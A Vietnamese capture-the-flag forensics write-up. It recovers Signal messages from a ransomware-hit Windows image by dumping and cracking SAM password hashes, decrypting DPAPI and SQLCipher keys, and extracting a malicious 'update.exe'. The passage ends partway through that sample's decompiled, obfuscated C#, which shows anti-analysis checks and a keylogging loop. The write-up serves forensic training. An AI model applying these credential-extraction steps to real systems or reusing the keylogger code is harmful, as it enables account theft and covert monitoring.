# Comunicate
### Challenge Description
>My friend told me that yesterday she received a document from a colleague, then her computer received a new windows update from Microsoft. After updating Windows to the new version, while surfing the web, she suddenly realized that she had been attacked by ransomware, all her important files were encrypted. She panicked and deleted all her documents. With your digital forensic skills, please investigate whether all the encrypted files have been stolen or not! And can you help her recover the data?

### Part 1
Khi kiểm tra qua file envidence sẽ thấy tất cả các file trong thư mục `C:\User\sosona` đều bị mã hóa với đuôi `.fooo`
Người dùng có tải về 3 app để nhắn tin lần lượt là `session` `telegram` và `signal`

Vậy hướng đi đầu tiên sẽ là phân tích dữ liệu của 3 app này tại `AppData\Roaming` để tìm các file, tin nhắn 
Bắt đầu với `session`, ứng dụng này lưu toàn bộ tin nhắn tại file db.sqlite nằm trong `AppData\Roaming\sql` với key được lưu tại `AppData\Roaming\config.json`

Vậy chỉ cần mở file db với key đã có bằng `DB Browser`, sau đó tìm đến bảng `message_fts` nhưng thứ nhận được chỉ là fake flag

Tiếp theo đến với `Signal`, app này có cấu trúc khá giống với `Session` nhưng mã hóa key database kỹ hơn 
Khi tìm kiếm cách giải mã key của `Signal` thì có thể tìm được bài viết này [link](https://stolenfootball.github.io/posts/research/2025/signal_windows_decryption/)

```
Mật khẩu Windows (plaintext)
        │
        ▼ SHA1 + UTF-16LE
SHA1 Hash
        │
        ▼ + SID + Master Key file (DPAPI)
AES-256-GCM Key (32 bytes)  ← lưu trong Local State
        │
        ▼ AES-256-GCM decrypt encryptedKey trong config.json
SQLCipher Key (32 bytes)    ← lưu trong config.json
        │
        ▼
db.sqlite 
```
Bước 1: Lấy SHA1 Hash từ mật khẩu Windows của user `sosona`
Ta cần export `SAM` và `SYSTEM` từ envidence sau đó dùng `pypykatz` để lấy NTLM và `Hashcat` để crack lấy mật khẩu
```
❯❯ pypykatz registry --sam SAM SYSTEM
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 47a90e8dc4a408ea13eddc25b4e88c13
============== SAM hive secrets ==============
HBoot Key: 2c7b90a503df8b5ae0fa611ff0bf3ef210101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:733026a5af82d38db29550ae88f4c8b1:::
sosona:1001:aad3b435b51404eeaad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf:::
zuytrinh in d/ctf/attachment                                                                                    05:12 AM
❯❯ hashcat --show hash.txt
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1000 | NTLM | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Failed to parse hashes using the 'pwdump' format.
31d6cfe0d16ae931b73c59d7e0c089c0:
2d20d252a479f485cdf5e171d93985bf:qwerty
```
Vậy có mật khẩu là `qwerty` sau đó chỉ cần SHA1 là xong

Bước 2: Lấy Master key GUID
Tại `Roaming\Signal\Local State` là JSON chứa DPAPI blob được Base64 encode, dùng `cyberchef` để xử lý lấy blob hex

Tiếp theo là lấy `masterkey_guid` bằng pypykatz
```
pypykatz dpapi describe blob 01000000d08c9ddf0115d1118c7a00c04fc297eb01000000b997cdd1b72a9843.....
== DPAPI_BLOB ==
version: 1
credential_guid: b'\xd0\x8c\x9d\xdf\x01\x15\xd1\x11\x8cz\x00\xc0O\xc2\x97\xeb'
masterkey_version: 1
masterkey_guid: d1cd97b9-2ab7-4398-ba1f-228f87eccffa
```
Bước 3: Giải mã DPAPI
Trước tiên phải tạo prekeys từ `SID` và `SHA1` đã lấy ở bước 1
```
pypykatz dpapi prekey sha1 S-1-5-21-1050944156-4264195685-750733359-1001 db588811d533f6fc41f14c7325e9e71e8f0863a5 | tee prekeys.txt

9ccf16ab35c1e3c55807f0f8db3b905e6e9b785e
db588811d533f6fc41f14c7325e9e71e8f0863a5
```
Sau đó ùng prekeys để giải mã Master Key file có GUID vừa tìm được ở bước 2 và lưu vào `masterkey_decrypted.json`
```
pypykatz dpapi masterkey ./S-1-5-21-1050944156-4264195685-750733359-1001/d1cd97b9-2ab7-4398-ba1f-228f87eccffa  prekeys.txt
[GUID] d1cd97b9-2ab7-4398-ba1f-228f87eccffa [MASTERKEY] 9775cb01f73eff2bd8ff943ae9040d753804d2c9ffd513c1db2ca218c7b9225817bbb24c77c7e52577fb916e52137744fdd917f5180b56c4e8a9fef4bf1a0da9
```
Sau đó giải mã DPAPI Blob → AES-256-GCM Key
```
pypykatz dpapi blob masterkey_decrypted.json 01000000d08c9ddf0115d1118c7a00c04fc297eb01000000b997cdd1b72a9843ba1f228f87eccffa10000000120000004300680072006f006d00690075006d0000001066000000010000200000002d5eb80714b0bf5b927182d92b0d23054b4cb41901e45f13e05af029c19473da000000000e80000000020000200000000cffe8fc9ef129029518305621946695c5776b6dc90ceaa52b3820c605d3f9cd3000000019cabf4556fc128c7f1c2e06cb956a072e17e53138a74e6734b7e590575f9d23d131b27f8bd11ff17d6f36633016a47040000000081f43a2a0195fb4ecf4befa4db60895b0f1795e305a218ea8087ece6a1525f89750f7faa8d629a7b137069a30d8a58c0f18c2a4bd85371a4d088d03e9a084c8
HEX: 5a985f65714e073c05cd2929c83f9c1861ed0bbbdeb726b556d94c5158feef0e
```
Cuối cùng lấy Lấy SQLCipher Key tại file `%APPDATA%\Roaming\Signal\config.json` chứa `encryptedKey` với cấu trúc:
```
[header 3 bytes "v10"] [nonce 12 bytes] [ciphertext 32 bytes] [mac 16 bytes]
```
Sau khi tách đúng ta được dạng sau 
```
  "header": "763130",
  "nonce": "96070814191ae36a2dc52e8d",
  "encrypted_data": "93223300dff299666ee4d45a43bdbe3268747291c30afbfff7fd7fc0708f77a613dd1989cf16812a703eec43022476cf14fb6635c480024784ecd5c2ad21dfb1",
  "mac": "63e234e85bdfcddf04767a958fb3bb9a"
```
Bước 4: Giải mã AES-256-GCM
Dùng cyberchef giải mã với `Key`, `IV` và `GCM tag` đã tìm được ở trên ta nhận được key để truy cập database


Sau khi vào database và tìm đến bảng `message_fts_content` thì thấy sosona đã nhận được một file `salary statistics`

Sau khi vào bảng `message_attachments` thì thấy file có tên `salary_statistics.rar`, được lưu tại `attachments.noindex\8b\8b5100ceb2c08f97f68dd12a30e97a4f6809f7365d8f5f170ea133bf93daae4f` và có cả key để giải mã

Sử dụng AES-CBC và 32 bytes đầu của key để decrypt data với script
```
import base64
from Crypto.Cipher import AES

key = base64.b64decode("R5/KK7BDJTSSE/aVyHVQSsXuQm1O/8UOjAxKkNzSSFIfxuR6Tn26s6efsgHkoWbCGr5p3VFbOwLVD2HFE4jXjQ==")
key = key[:32]

data = open('8b5100ceb2c08f97f68dd12a30e97a4f6809f7365d8f5f170ea133bf93daae4f', 'rb').read()
iv = data[:16]

cipher = AES.new(key, AES.MODE_CBC, iv)

plaintext = cipher.decrypt(data[16:])
padding_len = plaintext[-1]
plaintext = plaintext[:-padding_len]

with open('attachment.rar', 'wb') as f:
    f.write(plaintext)

print("Done")
```
Sau khi giải mã nhận được file `.rar` khi đưa lên cyberchef thì thấy có 2 file, một file là `.csv` và một file là `update.exe` được điều hướng đến thư mục Startup của sosona, đây chính là mã độc mà người dùng gặp phải
Mở file csv lên bằng winrar thì thấy đây là một bảng lương bình thương, nhưng ở cuối có một đoạn base62 là phần đầu tiên của flag

`W1{7h15_155_7h3_f1rr57_fl4ff4g_s3ss1on_r3c0very-`
### Part 2
Tìm đến thư mục Startup và export file `update.exe` ra để phân tích

Sau khi dùng `DIE` thì thấy được viết bằng C# nên mình sẽ sử dụng `dotpeek` để phân tích

Sau khi phân tích qua thì thấy có 4 class chính:
- NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq
```
public class NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq
{
  public static string ZIDZvDLAFbRYxsxkwMl1lB7DELyeP0rfiJNEILKuap1H9eXgbiPbiwGYX2g2 = "/jd1pt5XzE3pcXSJ4FhYNxpBFHYGA6MOUaWVshBsinIckITH6QuPC9VFOBJE5b9hKwoXSJ9ftg4v9doYN1VhQUuayvJvCVZFXtxaMRtrg7DUlE9draq5y/iY+LJA2F+MY4mLvYvD3B7YN31QDn834JmqXeIYbJTVtWTCXa0WVzfI8lBkk9vrFozAirXaQrIJbYHDN4yPjkxkIdzRgilJpg==";
  public static string DhMybcleyUJ8bZbaqtAkL3FTz6SQ840xELBsFWt9yekNCVYQ1WgRtjL1bTF3 = "QjRrbkVFN1Uzdw==";
  public static string MDh3yXSMAdiG68emKyr9Kd0pQ5h7vSfCC8RghVyd1WNkxN4Ja32rfEYX4QFx = "bGpDok5Wv7ay4P4dQmT5CUfcCAzpm3RZomFwoAsAWhlDzKsO4LDnp/7YvqOEGeEWqUzjsqYCTU97gpV5mHxi6A==";
  public static string tcJTN8G8WAtYSJxxjU4y9Yq35vvtUBXmE1z7LC4H8u404NkYRDfWE1v7bDGq = "bGpDok5Wv7ay4P4dQmT5CUfcCAzpm3RZomFwoAsAWhmuWIyJ6+9abjIbeWOjzTfUqUzjsqYCTU97gpV5mHxi6A==";
  public static string YiiPCCvj2fk1dJrm3DrFAWX4eBGrQ9S7Yrk1tApStYHhGabddvJ81zQzpgk8 = "y8yR2nViEW5gZl/FTZHGbA==";
  public static int J7uvkxR0L045xBqYi4q2w328CqLqA7GmbY67n5aZiJzrWihmd4AfgBzANzLy = 17;
  public static int b6phwQBmZjWvbv4crkniEK5kqrwGEpXjjaMAVWKz5cFJavW79nYexn19w1ux = 67;
  public static int uYkLjftp3vRyV0zpbi9dHX4UeN0p347nWjunSadtZvXMSx7iJMV70HQtu8CK = 86;
  public static int MPE83S2xbTv5nYzW1kK7Sc34qr3AiLmq8HjuZPqrhguBknRBFAHKQSzL8SGp = 86;
  public static int ih2EEe7itjfSw6e0ktJ3j9wLRv9q5YDzerFGTGepeJLdLDmSa1GdJtyeQ6g6 = 65;
}
```
- ACX0qTJzEzq40qP5qFxb
```
using System;
using System.Text;

#nullable disable
namespace ChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyo;

internal sealed class ACX0qTJzEzq40qP5qFxb
{
  public static byte[] wVkaAAeCf6BeWi8Flwtq(string Tzme3PWI6TL0OkpZdAFJ)
  {
    return Encoding.UTF8.GetBytes(Tzme3PWI6TL0OkpZdAFJ);
  }

  public static string sJljw7gGxcYB8jRe1fPv(byte[] DVqcQRyUiEoVe72AbaTd)
  {
    return Encoding.UTF8.GetString(DVqcQRyUiEoVe72AbaTd);
  }

  public static byte LyHSmWJ0Vnpm9qdcd27J(string pGA4X0Np2jyx2hkuPhJg, int bbL03DQ9zjJSYkufe6L4)
  {
    return Convert.ToByte(pGA4X0Np2jyx2hkuPhJg, bbL03DQ9zjJSYkufe6L4);
  }
}
```
- oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U
```
using System;
using System.Diagnostics;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;
using System.Text.RegularExpressions;
using System.Threading;

#nullable disable
namespace ChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyo;

internal class oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U
{
  [DllImport("user32.dll", EntryPoint = "GetAsyncKeyState")]
  private static extern short zhQ892cwXfEKgGNtZn21Z3hQvNHXfAKzSG9GnadJ3Xi2eeXuakGavLBLDCu9(
    int DWjkAQ7bvxAdNE8Z3X2dAypzU9VS6x6bQ804gg14yLVyT1jLTPYzzLipyizQ);

  private static void Main()
  {
    try
    {
      NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.ZIDZvDLAFbRYxsxkwMl1lB7DELyeP0rfiJNEILKuap1H9eXgbiPbiwGYX2g2 = Convert.ToString(yEA8oSg5e02FNWc6DpGE.f5Mo9y1FK1yJy4poW9CE(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.ZIDZvDLAFbRYxsxkwMl1lB7DELyeP0rfiJNEILKuap1H9eXgbiPbiwGYX2g2));
      NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.MDh3yXSMAdiG68emKyr9Kd0pQ5h7vSfCC8RghVyd1WNkxN4Ja32rfEYX4QFx = Convert.ToString(yEA8oSg5e02FNWc6DpGE.f5Mo9y1FK1yJy4poW9CE(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.MDh3yXSMAdiG68emKyr9Kd0pQ5h7vSfCC8RghVyd1WNkxN4Ja32rfEYX4QFx));
      NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.tcJTN8G8WAtYSJxxjU4y9Yq35vvtUBXmE1z7LC4H8u404NkYRDfWE1v7bDGq = Convert.ToString(yEA8oSg5e02FNWc6DpGE.f5Mo9y1FK1yJy4poW9CE(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.tcJTN8G8WAtYSJxxjU4y9Yq35vvtUBXmE1z7LC4H8u404NkYRDfWE1v7bDGq));
      NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.YiiPCCvj2fk1dJrm3DrFAWX4eBGrQ9S7Yrk1tApStYHhGabddvJ81zQzpgk8 = Convert.ToString(yEA8oSg5e02FNWc6DpGE.f5Mo9y1FK1yJy4poW9CE(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.YiiPCCvj2fk1dJrm3DrFAWX4eBGrQ9S7Yrk1tApStYHhGabddvJ81zQzpgk8));
    }
    catch (Exception ex)
    {
    }
    try
    {
      if (oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.roByDJH6ZwpyyMdfAo4PFI3PqRqzn0PSxC5Zg4kzrh6PUEFGOozNDZH3SKF4M1wI6K9GZ1nL6cPaKJJYpNJSKRzaheb())
        Environment.Exit(0);
      if (oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.pP3jQ2G5fRQOBkR4RuG4ivhEGAqezIt7vqpAJDH5RetSUjBUu1dokMPle3i3())
        Environment.Exit(0);
    }
    catch (Exception ex)
    {
    }
    while (true)
    {
      bool flag1 = ((uint) oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.zhQ892cwXfEKgGNtZn21Z3hQvNHXfAKzSG9GnadJ3Xi2eeXuakGavLBLDCu9(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.J7uvkxR0L045xBqYi4q2w328CqLqA7GmbY67n5aZiJzrWihmd4AfgBzANzLy) & 32768U /*0x8000*/) > 0U;
